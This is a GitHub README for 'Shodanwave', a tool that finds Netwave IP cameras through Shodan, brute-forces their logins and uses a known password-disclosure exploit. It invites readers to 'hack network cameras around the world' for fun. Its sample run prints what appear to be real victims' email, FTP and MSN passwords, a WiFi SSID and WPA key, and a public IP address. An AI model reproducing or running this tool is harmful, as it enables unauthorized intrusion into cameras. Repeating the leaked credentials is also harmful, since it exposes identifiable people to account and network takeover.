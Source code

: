 # Shadonwave 

Shodanwave is a tool for exploring and obtaining information from cameras specifically Netwave IP Camera. The tool uses a search engine called shodan that makes it easy to search for cameras online but not only that.

Hack network cameras around the world, Very fun!

What does the tool to? Look, a list!

 * Search 
 * Brute force
 * SSID and WPAPSK Password Disclosure
 * E-mail, FTP, DNS, MSN Password Disclosure 
 * Exploit


Here is an example of shodan wave running ...

```

Usage: python shodanwave.py -u usernames.txt -w passwords.txt  -k Shodan API key
       python shodanwave.py --help 
         __              __                                   
   _____/ /_  ____  ____/ /___ _____ _      ______ __   _____ 
  / ___/ __ \/ __ \/ __  / __ `/ __ \ | /| / / __ `/ | / / _ \
 (__  ) / / / /_/ / /_/ / /_/ / / / / |/ |/ / /_/ /| |/ /  __/
/____/_/ /_/\____/\__,_/\__,_/_/ /_/|__/|__/\__,_/ |___/\___/ 
                                                              

This tool is successfully connected to shodan service
Information the use of this tool is illegal, not bad.

[+] Shodan successfully Connected.
[+] Shodan Exploit Enabled.
[+] Netwave IP Camera Found: 111307
[+] Passwords loaded: 12
[!] Disable password discovery module? (Yes/no): Yes
[+] Password Found admin@123456
[!] Trying to get more information
[+] Email: basile.antonio@orange.fr:vitaline19
[+] FTP: ftp://basile.an1tonio.perso.sfr.fr:vitalineD519@http://ftpperso.sfr.fr/:21
[+] MSN: camera-rousselin1@hotmail.fr@vitaline19
[!] Getting System Information
[!] Getting Wireless System Information
[+] Mac address found E8ABFA1A9374
[+] Host: http://186.193.55.18:8080
[+] Country: n/a
[+] Organization: Nettel Telecomunicações Ltda.
[+] Product: Netwave IP camera http config
[+] SSID: moslekok
[+] WPAPSK: TulSokanLoptatok
[+] Starting to read memory dump.. this could take a few minutes
[+] CTRL+C to exit..
[+] Binary data: 70560
[+] Strings in binary data found.. password should be around line 10000
[+] Mac address triggered.. printing the following dumps, could leak username and passwords..
[+] Firstline... CAMERA2
[+] Possible username: admin
[+] Possible password: ac00310
[+] Following line.. 

```
### Install Requirements
```
pip install -r /path/to/requirements.txt
```

### References:

 * [Shodan API](https://www.shodan.io/)  search engine for Internet-connected devices.
 * [Requests](http://docs.python-requests.org/en/master/) Requests: HTTP for Humans
 * [Netwave Exploit](https://www.exploit-db.com/exploits/41236/) Netwave IP Camera - Password Disclosure

